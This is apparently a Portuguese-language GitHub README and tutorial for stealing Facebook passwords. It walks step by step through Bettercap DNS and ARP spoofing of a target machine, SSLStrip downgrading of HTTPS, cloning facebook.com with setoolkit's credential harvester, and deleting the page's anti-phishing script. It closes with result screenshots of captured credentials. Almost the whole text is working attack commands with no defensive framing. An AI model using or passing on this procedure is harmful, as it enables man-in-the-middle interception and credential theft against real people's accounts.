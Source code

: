 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux (Sistema Operacional)
- setoolkit (ferramenta para captura dos dados - nativo do Kali Linux)
- Bettercap (ferramenta para mascarar URL com DNS spoof)

### Atualização e instalação de ferramentas no Kali Linux

- Passo 1 - Acesso root: ``` sudo su ```
- Passo 2 - Atualizando sistema operacional e repositórios: ``` apt update && sudo apt upgrade -y ```
- Passo 3 - Instalando o Bettercap: ``` apt install bettercap -y ```

### Configurando o DNS spoof no Bettercap

- Passo 1 - Verificando qual o nome da interface de rede: ``` ip a ```
- Passo 2 - Obtendo o endereço da máquina: ``` ifconfig ```
- Passo 3 - Executando o Bettercap no modo interativo: ``` bettercap -iface eth0 ```
- Passo 4 - Definindo o domínio a ser redirecionado: ``` set dns.spoof.domains http://face.book.com ```
- Passo 5 - Definindo o endereço de acesso da página: ``` set dns.spoof.address 192.168.1.13 ```
- Passo 6 - Ativando o DNS spoof: ``` dns.spoof on ```
- Passo 7 - Definindo o alvo do spoofing: ``` set arp.spoof.targets 192.168.1.11 ```
- Passo 8 - Ativando spoofing ARP (ataque MITM): ``` arp.spoof on ```
- Passo 9 - Ativando o SSLStrip (recurso que rebaixa conexões HTTPS para HTTP, possibilitando redirecionamento): ``` set http.proxy.sslstrip true ```
- Passo 10 - Definindo endereço IP do proxy: ``` set http.proxy.address 192.168.1.13 ```
- Passo 11 - Definindo porta do proxy: ``` set http.proxy.port 8080 ```
- Passo 12 - Ativando o proxy: ``` http.proxy on ```

### Configurando o Phishing no setoolkit

- Passo 1 - Iniciando o setoolkit: ``` setoolkit ```
- Passo 2 - Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Passo 3 - Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Passo 4 - Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Passo 5 - Técnica de ataque: ``` 2) Site Cloner ```
- Passo 6 - Definindo IP do servidor: tecla enter
- Passo 7 - Definindo URL para clone: ```http://www.facebook.com```

### Removendo medidas anti-phishing da página clonada

- Passo 1 - Executando edição no arquivo index da página clonada: ``` nano /root/.set/web_clone/index.html ```
- Passo 2 - Buscar linha que valida os formulários e credenciais: ctrl + f ``` <script src= ```
- Passo 3 - Linha completa a ser removida: ``` <script src="https://static.xx.fbcdn.net/rsrc.php/v4/y0/r/w5OYqc0pmp2.js" data-bootloader-hash="lp6Cw4s" crossorigin="anonymous"></script> ```
- Passo 4 - Salvar alterações no arquivo: ctrl + o
- Passo 5 - Fechar arquivo: ctrl + x

### Resultados

![Alt text](./pagina-clonada.png "Optional title")
![Alt text](./credenciais.png "Optional title")
